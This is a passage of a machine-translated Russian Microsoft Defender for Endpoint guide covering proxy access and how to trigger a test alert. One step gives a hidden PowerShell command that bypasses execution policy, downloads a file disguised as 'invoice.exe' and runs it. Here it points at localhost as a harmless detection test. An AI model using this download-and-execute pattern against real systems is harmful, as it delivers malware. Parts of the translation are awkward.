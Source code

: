 1. Проверьте наличие прокси-сервера или брандмауэра, блокирующего анонимный трафик. Защитник для датчика конечных точек подключается к системному контексту, поэтому необходимо разрешить анонимный трафик. Чтобы обеспечить неограниченный доступ к защитнику для портала конечной точки, следуйте инструкциям в разделе [Включение доступа к URL-адресам служб на прокси-сервере](/windows/security/threat-protection/microsoft-defender-atp/configure-proxy-internet#enable-access-to-microsoft-defender-atp-service-urls-in-the-proxy-server).

1. Откройте [портал центра безопасности защитника Майкрософт](https://securitycenter.windows.com/). Дополнительные сведения о функциях и значках портала см. в статье [Обзор портала центра безопасности защитника Microsoft](/windows/security/threat-protection/microsoft-defender-atp/portal-overview). 

## <a name="send-a-test-alert"></a>Отправить тестовое оповещение

Создание некритического защитника Майкрософт для тестового оповещения конечной точки:

1. Создайте папку "К:\тест-мдатп-тест".
1. Используйте удаленный рабочий стол для доступа к компьютеру.
1. Откройте окно командной строки.
1. В командной строке скопируйте и выполните следующую команду: Окно командной строки закроется автоматически.

    ```powershell
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
    ```
    :::image type="content" source="./media/security-center-wdatp/generate-edr-alert.png" alt-text="Окно командной строки с командой для создания тестового оповещения.":::

1. Если команда выполнена успешно, вы увидите новое оповещение на панели мониторинга центра безопасности Azure и в защитнике Майкрософт для портала конечной точки. Это оповещение может отобразиться через несколько минут.
1. Чтобы ознакомиться с оповещением в центре безопасности, перейдите в раздел **оповещения системы безопасности**  >  **подозрительные команды PowerShell**.
1. В окне расследования выберите ссылку для перехода к Microsoft Defender для портала конечной точки.

    > [!TIP]
    > Оповещение активируется **с уровнем** серьезности.

## <a name="faq-for-security-centers-integrated-microsoft-defender-for-endpoint"></a>Часто задаваемые вопросы об интегрированном защитнике Майкрософт для конечных точек центра безопасности

- [Каковы требования к лицензированию защитника Майкрософт для конечной точки?](#what-are-the-licensing-requirements-for-microsoft-defender-for-endpoint)
- [Если у меня уже есть лицензия на Microsoft Defender для конечной точки, могу ли я получить скидку на Azure Defender?](#if-i-already-have-a-license-for-microsoft-defender-for-endpoint-can-i-get-a-discount-for-azure-defender)
- [Разделы справки переключаться от стороннего средства ЕДР?](#how-do-i-switch-from-a-third-party-edr-tool)

